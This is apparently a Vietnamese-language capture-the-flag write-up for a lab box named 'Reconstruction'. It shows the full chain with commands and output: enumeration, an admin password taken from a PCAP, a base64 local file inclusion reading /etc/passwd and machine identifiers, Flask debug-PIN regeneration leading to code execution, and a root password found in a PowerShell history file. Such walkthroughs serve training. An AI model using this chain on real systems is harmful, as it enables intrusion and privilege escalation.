

# Reconstruction

## Summary

Tận dụng lỗ hổng local file inclusion trong ứng dụng Flask để kích hoạt chế độ debug. Sau đó, escalate thông qua việc tiết lộ thông tin đăng nhập người dùng root khá hài hước trong history file.

## Enumeration

### Nmap

Để bắt đầu, quét `nmap` đơn giản sẽ cho thấy các cổng 21, 22 và 8080 đang mở.

```
kali@kali:~$ sudo nmap 192.168.120.121
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 11:06 EDT
Nmap scan report for 192.168.120.121
Host is up (0.040s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Quét cổng 21 bằng cờ `-sC` cho biết rằng đăng nhập ẩn danh được phép.

```
kali@kali:~$ sudo nmap -p 21 192.168.120.121 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 12:03 EDT
Nmap scan report for 192.168.120.121
Host is up (0.029s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Apr 29 18:16 WebSOC
|_-rw-r--r--    1 0        0             137 Apr 29 18:17 note.txt
...
```

Ngoài ra, máy chủ FTP còn chứa hai tệp: note.txt và WebSOC.

### Wfuzz

Trang web chạy trên cổng 8080 không hiển thị bất kỳ thông tin thú vị nào, nhưng wfuzz hiển thị hai thư mục ẩn: `/login` và `/data`.

```
kali@kali:~$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://192.168.120.121:8080/FUZZ/
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.120.121:8080/FUZZ/
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                              
===================================================================

000000216:   302        3 L      24 W     257 Ch      "create"                                             
000000236:   302        3 L      24 W     253 Ch      "data"                                               
000000487:   200        75 L     138 W    2297 Ch     "login"                                              
000000490:   200        66 L     126 W    2011 Ch     "logout"                                             
...
```

Khi điều hướng đến `/login`, được nhắc nhập mật khẩu. Quay lại vấn đề này sau.

### Gobuster

Tiếp theo, quét trang web bằng `Gobuster` (và wordlist `/usr/share/wordlists/dirb/common.txt`) để tìm thư mục `/console`.

```
kali@kali:~$ gobuster dir -u http://192.168.120.121:8080 -w /usr/share/wordlists/dirb/common.txt -z
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
...
===============================================================
2020/10/06 09:08:16 Starting gobuster
===============================================================
/console (Status: 200)
...
```

Khi điều hướng đến `endpoint /console`, phát hiện ra chức năng debugging console, dựa trên vị trí, có vẻ là ứng dụng Flask. Tuy nhiên, điều này yêu cầu mã PIN để mở khóa và không thể đoán hoặc bẻ khóa mã PIN tại thời điểm này.

## Exploit

### PCAP File Inspection

Tiếp theo, đăng nhập và lấy các tập tin đã phát hiện từ máy chủ FTP.

```
kali@kali:~$ ftp 192.168.120.121
Connected to 192.168.120.121.
220 (vsFTPd 3.0.3)
Name (192.168.120.121:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 29 18:16 WebSOC
-rw-r--r--    1 0        0             137 Apr 29 18:17 note.txt
226 Directory send OK.
ftp> 
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (137 bytes).
226 Transfer complete.
137 bytes received in 0.01 secs (21.2634 kB/s)
ftp> 
ftp> cd WebSOC
250 Directory successfully changed.
ftp> 
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0         3086771 Apr 29 17:14 1.05.2020.pcap
-rw-r--r--    1 0        0          869677 Apr 29 16:32 29.04.2020.pcap
-rw-r--r--    1 0        0        14579662 Apr 29 16:36 30.04.2020.pcap
226 Directory send OK.
ftp> 
ftp> get 1.05.2020.pcap
local: 1.05.2020.pcap remote: 1.05.2020.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 1.05.2020.pcap (3086771 bytes).
226 Transfer complete.
3086771 bytes received in 0.61 secs (4.8217 MB/s)
ftp> 
ftp> get 29.04.2020.pcap
local: 29.04.2020.pcap remote: 29.04.2020.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 29.04.2020.pcap (869677 bytes).
226 Transfer complete.
869677 bytes received in 0.34 secs (2.4436 MB/s)
ftp> 
ftp> get 30.04.2020.pcap
local: 30.04.2020.pcap remote: 30.04.2020.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 30.04.2020.pcap (14579662 bytes).
226 Transfer complete.
14579662 bytes received in 2.22 secs (6.2512 MB/s)
ftp> bye
221 Goodbye.

kali@kali:~$
```

Nội dung của note.txt như sau:

```
kali@kali:~$ cat note.txt 
I've just setup the new WebSOC! This should hopefully help us catch these filthy hackers!


TODO: remove leftover passwords from testing
kali@kali:~$
```

Ghi nhớ bình luận `TODO` khi tiến hành.

Thư mục `WebSOC` chứa ba tệp PCAP có thể mở và kiểm tra bằng `Wireshark`. Hầu hết thông tin đều vô dụng, nhưng gói số `13745` trong `1.05.2020.pcap` tiết lộ mật khẩu quản trị viên cho ứng dụng web (`1edfa9b54a7c0ec28fbc25babb50892e`):



Bây giờ có thể đăng nhập bằng recovered password.

### LFI

Bây giờ đã authen với ứng dụng, quay lại endpoint `/data` được tiết lộ bởi quá trình quét `wfuzz`. Để thăm dò endpoint này, thiết lập trình duyệt để sử dụng proxy `Burp` và điều hướng đến `/data`, hiển thị một `Hello World!` đơn giản. Phản hồi của máy chủ không chứa bất kỳ thông tin thú vị nào.

Tuy nhiên, khi duyệt đến `/data/FUZZ`, lỗi `Something went wrong!` sẽ xuất hiện và máy chủ phản hồi như sau:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 21
X-Error: [Errno 2] No such file or directory: '\x15FY'
Vary: Cookie
Set-Cookie: session=.eJwli1EKgCAQBa-yvG_pAN0kQkRsK8HWcJU-xLsX9DUwzHS4PXk9WTGvHVQ_QFsIrAqDJTfyhUnyQykfB28UZYId1sDdXC4vLN9TS2ODv3BRfjFex6kgSA.X3xxxQ.tC04bOvFnBdF0GOiPLx45LBTeeM; Expires=Fri, 06-Nov-2020 13:31:49 GMT; HttpOnly; Path=/
...
```

Dòng `X-Error: [Errno 2] No such file or directory: '\x15FY'` rất quan trọng cần lưu ý ở đây.

Kiểm tra thêm, có thể yêu cầu `/data/a` trả về phản hồi sau:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 13
X-Error: Incorrect padding
...
```

Đây thường là lỗi liên quan đến giải mã base64. Nếu chúng ta mã hóa `a` trong base64, nó sẽ trở thành `YQ==`. Thử http://192.168.120.121:8080/data/YQ==, trả về lỗi sau:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 21
X-Error: [Errno 2] No such file or directory: 'a'
...
```

Loại lỗi này cho thấy có thể tận dụng lỗ hổng local file inclusion trong ứng dụng. Hãy thử nghiệm điều này với `/etc/passwd` (base-64-encoded là `L2V0Yy9wYXNzd2Q=`) trở thành http://192.168.120.121:8080/data/L2V0Yy9wYXNzd2Q=:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
jack:x:1001:1001::/home/jack:/bin/bash 
```

Việc đưa vào thành công và thấy nội dung của file.

Bây giờ, ghi chú về người dùng `jack`.

Bây giờ xác nhận được lỗ hổng LFI, cần tìm cách tận dụng nó để khai thác thêm. Sau một số cuộc điều tra, phát hiện ra rằng không thể đưa vào các file có extension là  `py`, `txt`, `pyc`, `ini` hoặc `conf`.

Nhớ rằng đây là ứng dụng Flask có debugging console được bật (nhưng bị khóa), nghiên cứu một cách bypass tiềm năng. Khi đọc bài đăng trên blog https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/, phát hiện ra rằng có thể tạo lại mã pin gỡ lỗi Flask bằng cách khai thác lỗ hổng LFI.

Có thể thực hiện việc này bằng script https://gist.github.com/InfoSecJack/70033ecb7dde4195661a1f6ed7990d42, nhưng trước tiên cần nội dung của ba tệp: `/etc/machine-id` (`L2V0Yy9tYWNoaW5lLWlk`), `/proc/self/cgroup` (`L3Byb2Mvc2VsZi9jZ3JvdXA=`) và `/sys/class/net/INTERFACE_NAME/address`. Phát hiện ID máy trong `/etc/machine-id` bằng cách duyệt đến http://192.168.120.121:8080/data/L2V0Yy9tYWNoaW5lLWlk:

```
00566233196142e9961b4ea12a2bdb29
```

Tệp `/proc/self/cgroup` (http://192.168.120.121:8080/data/L3Byb2Mvc2VsZi9jZ3JvdXA=) chứa những nội dung sau:

```
12:perf_event:/ 11:freezer:/ 10:hugetlb:/ 9:rdma:/ 8:pids:/system.slice/blog.service 7:memory:/system.slice/blog.service 6:cpuset:/ 5:net_cls,net_prio:/ 4:devices:/system.slice/blog.service 3:blkio:/system.slice/blog.service 2:cpu,cpuacct:/system.slice/blog.service 1:name=systemd:/system.slice/blog.service 0::/system.slice/blog.service
```

Giá trị cần lưu ý ở đây là `blog.service`.

Cuối cùng, cần địa chỉ MAC của giao diện mạng. Thật không may, không biết tên interface mà mục tiêu đang sử dụng, nhưng có thể thử một số tên thường dùng hơn. Cuối cùng, phát hiện ra `ens160`, giải quyết file quan tâm là `/sys/class/net/ens160/address` (`L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=`).

Khi điều hướng đến địa chỉ đó, thấy địa chỉ MAC là `00:50:56:8a:fc:e8` hoặc `345049332968` ở dạng thập phân.

### Remote Code Execution

Bây giờ đã có tất cả thông tin cần thiết để tạo lại mã PIN gỡ lỗi Flask, có thể thử thực thi mã từ xa. Có thể tạo lại mã PIN bằng một script:

```
kali@kali:~$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29blog.service' --uuid 345049332968
[!] App.py base path not provided, trying for most versions of python
2.7: 808-636-148
3.0: 326-388-942
3.1: 497-064-428
3.2: 134-262-617
3.3: 190-791-220
3.4: 238-677-304
3.5: 210-728-119
3.6: 173-509-958
3.7: 159-262-052
3.8: 751-326-702
kali@kali:~$ 
```

Mặc dù không biết phiên bản python chính xác mà mục tiêu đang chạy, có thể thử tất cả các mã PIN này. Cuối cùng, thành công với phiên bản 3.6.

Tuy nhiên, tùy thuộc vào một số sự kiện xảy ra trong chu kỳ khởi động của máy cụ thể này, `/proc/self/cgroup` đôi khi không được đưa vào tính toán mã debug PIN. Trên thực tế, sự bất thường này xảy ra trong quá trình khởi động cụ thể. Do đó, không thành công với giá trị mã PIN là `173-509-958`.

Trong trường hợp này, chạy lại script Python đã xóa `blog.service` (đã được thêm vào machine ID):

```
kali@kali:~$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29' --uuid 345049332968
[!] App.py base path not provided, trying for most versions of python
2.7: 120-566-406
3.0: 438-454-566
3.1: 207-828-493
3.2: 414-794-431
3.3: 359-376-798
3.4: 150-123-880
3.5: 207-574-021
3.6: 299-818-227
3.7: 327-733-603
3.8: 224-299-250
kali@kali:~$ 
```

Trong trường hợp này, mã PIN `299-818-227` là đúng và cho phép tiếp tục. Sau khi mở khóa bảng điều khiển gỡ lỗi, có được RCE:

```
>>> import os
>>> os.popen("id").read()
'uid=33(www-data) gid=33(www-data) groups=33(www-data)\n'
>>> 
```

## Escalation

### Flask Application Enumeration

Mặc dù có thể có được một reverse shell tại thời điểm này, có thể leo thang theo một cách khác. Biết rằng đây là một ứng dụng Flask, hãy xem xét file main `app.py`:

```
>>> print(os.popen("cat app.py").read())
#!/usr/bin/python3
import datetime
import functools
import os
import re
import urllib
from base64 import b64decode
import getpass

import flask
from flask import (Flask, flash, Markup, redirect, render_template, request,
                   Response, session, url_for)
from markdown import markdown
from markdown.extensions.codehilite import CodeHiliteExtension
from markdown.extensions.extra import ExtraExtension
from micawber import bootstrap_basic, parse_html
from micawber.cache import Cache as OEmbedCache
from peewee import *
from playhouse.flask_utils import FlaskDB, get_object_or_404, object_list
from playhouse.sqlite_ext import *


#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'
ADMIN_PASSWORD = '1edfa9b54a7c0ec28fbc25babb50892e'
APP_DIR = os.path.dirname(os.path.realpath(__file__))
DATABASE = 'sqliteext:///%s' % os.path.join(APP_DIR, 'blog.db')
DEBUG = False
SECRET_KEY = '2d82e3a08a632feb12a4d2e1159a224750480122a1fb9845e67a7305cfff4ec8'
...
>>>
```

Ứng dụng này chứa mật khẩu người dùng admin được comment (`#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'`). Nhớ lại nội dung của tệp `note.txt` đã recover từ máy chủ FTP:

```
...
TODO: remove leftover passwords from testing
```

Tận dụng mục việc cần làm bị lãng quên này.

### SSH

Vì có hai tài khoản người dùng trên hệ thống này (`jack` và `root`), mạo hiểm đoán rằng mật khẩu Flask này có thể được chia sẻ với một tài khoản người dùng hệ thống. Mặc dù mật khẩu không hoạt động với root, có thể đăng nhập với tư cách là `jack` với mật khẩu là `ee05d64d2528102d45e2db60986727ed`.

```
kali@kali:~$ ssh jack@192.168.120.121
...
jack@reconstruction:~$ id
uid=1001(jack) gid=1001(jack) groups=1001(jack)
jack@reconstruction:~$
```

Khi liệt kê thư mục home, khám phá ra `/home/jack/.local/share/powershell/PSReadLine/ConsoleHost_history.txt` là file history PowerShell. Kiểm tra nội dung của tệp này.

```
jack@reconstruction:~$ cat .local/share/powershell/PSReadLine/ConsoleHost_history.txt
Write-Host -ForegroundColor Green -BackgroundColor White Holy **** this works!
Write-Host -ForegroundColor Red -BackgroundColor Black Holy **** this works as well!
su FlauntHiddenMotion845
clear history
clearr
cls
exit
jack@reconstruction:~$
```

History này cho thấy một lỗi khá phổ biến. Người dùng `jack` đã vô tình nhập mật khẩu root trên dòng lệnh với `su`. Nhận ra lỗi, `jack` đã chạy `clear history` để cố gắng xóa history, nhưng lệnh thích hợp để xóa history PowerShell là `Clear-History` nên nỗ lực đã thất bại. Sau đó, `jack` đã chạy `clearr` để xóa màn hình, cũng không thành công vì lệnh thích hợp là `clear`. Cuối cùng, `jack` đã chạy `cls`, một alias PowerShell xóa màn hình nhưng không thay đổi history. Sau tất cả những lần loay hoay này, `jack` đã để lại mật khẩu dạng văn bản rõ trong tệp lịch sử.

Sử dụng mật khẩu này để cố gắng đăng nhập với tư cách là root:

```
jack@reconstruction:~$ su
Password: 
root@reconstruction:/home/jack# whoami
root
root@reconstruction:/home/jack#
```